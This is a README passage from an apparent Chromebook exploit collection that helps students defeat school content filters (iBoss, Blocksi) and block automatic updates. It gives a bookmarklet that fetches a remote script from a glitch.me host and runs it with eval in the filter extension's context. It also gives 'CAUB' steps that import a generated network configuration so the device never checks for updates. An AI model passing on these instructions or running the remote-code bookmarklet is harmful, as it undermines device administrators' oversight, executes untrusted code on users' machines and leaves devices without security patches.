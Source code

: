 ### Getting started
1. Go to the corresponding link for your blocker below.

iBoss: [tinyurl.com/byeswamp](https://tinyurl.com/byeswamp)

Blocksi: [tinyurl.com/blockboss](https://tinyurl.com/blockboss)

Then bookmark the code below:

```js
javascript:opener.eval(`fetch("https://rounded-boiling-flax.glitch.me/uboss.js").then(data=>{data.text().then(e=>{eval(e)})})`) && close();
```
2. Then go to the site with your blocker that was listed above.
3. Run the code. Follow the instructions there.

If it doesn't work let us know by creating a discussion, this was made in partnership with `akabutnice` and `bypassi`.

[**🔼 Back to top**](#ext-remover)

## CAUB *Prevent Updates*

This exploit keeps your Chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your Chromebook that the WiFi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates. 
### Note
Do **_NOT_** leave your Chromebook on a new WiFi network for more then a day without redoing the process unless you also have CAUB Flags. Even if you do have both, it can't hurt to be safe when taking your chromebook somewhere new.

### Requirements
- Access to `chrome://network#state`

### Getting started
1. Go to `chrome://network#state`.
2. Scroll to the bottom of the page. You will see a list of WiFi that you have connected to before.
3. Click the `+` sign next to the WiFi name of each network that you commonly connect your Chromebook to.
4. We are going to make it so that when the Chromebook is connected to those networks, it will not check for updates.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox below.
8. Press the `generate onc` button below the textbox.
9. Once you have downloaded the file, go to `chrome://network#general`.
10. Click on the `import ONC` button.
11. Import the newly-downloaded file.

**Extra notes**
- Your Chromebook will no longer automatically update. (as long as you are on a wifi that you CAUBed)
- Be careful not to stay on wifi for too long without using CAUB on it, otherwise, you might update.
- We cannot guarantee that this will work on every wifi, but it should work on most.
